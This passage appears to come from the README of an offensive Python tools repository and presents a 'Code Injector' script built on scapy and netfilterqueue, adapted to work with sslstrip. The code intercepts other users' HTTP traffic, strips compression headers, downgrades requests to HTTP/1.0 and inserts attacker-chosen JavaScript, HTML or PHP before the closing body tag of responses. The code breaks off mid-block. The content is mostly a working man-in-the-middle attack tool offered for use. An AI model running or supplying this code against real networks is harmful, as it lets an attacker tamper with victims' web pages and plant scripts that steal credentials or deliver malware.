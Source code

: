 

### 2. Code Injector:

_[Source](https://github.com/m3rcer/Python-Hax/blob/main/CodeInjector/README.md)_
- We changed the sport and dport definitions to match sslstrip's port definitions (port 10000).
- We replaced the load for the request from "HTTP/1.1 to HTTP/1.0" to get the response as a whole and not chunked.

```python
#!/usr/bin/env python

import scapy.all as scapy
import netfilterqueue
import argparse
import re


# Parse Args
def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-f", "--file-to-inject", dest="file", help="File/Code to Inject", type=str)
    options = parser.parse_args()
    if not options.file:
        # code to handle error
        parser.error("\n[-] Please specify a valid file with code to inject(js,HTML,php...),  use --help for info.")
    File = open(options.file, 'r')
    f = File.readlines()
    code = ""
    for line in f:
        code += line.strip()
    return(code)

# Alter packets load
def set_load(packet, load):
    packet[scapy.Raw].load = load
    del packet[scapy.IP].len
    del packet[scapy.TCP].chksum
    del packet[scapy.IP].chksum
    return packet


def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):
        #print(scapy_packet.show())
        try:
            load = scapy_packet[scapy.Raw].load.decode()
            # using sslstrip
            if scapy_packet[scapy.TCP].dport == 10000:
                print("\n[+] Request from: " + scapy_packet[scapy.IP].src)
                load = re.sub("Accept-Encoding:.*?\\r\\n", "", load)
                # Using HTTP/1.0
                load = load.replace("HTTP/1.1", "HTTP/1.0")
            # using sslstrip
            elif scapy_packet[scapy.TCP].sport == 10000:
                print("[+] Response from: " + scapy_packet[scapy.IP].src)
                injection_code = code
                # Appends injected code before terminating </body> tag
                load = load.replace("</body>", injection_code + "</body>")
                # Capture non capturing groups and use non capturing regex --> (?:...)
                content_length_search = re.search("(?:Content-Length:\s)(\d*)", load)
                if content_length_search and "text/html" in load:
```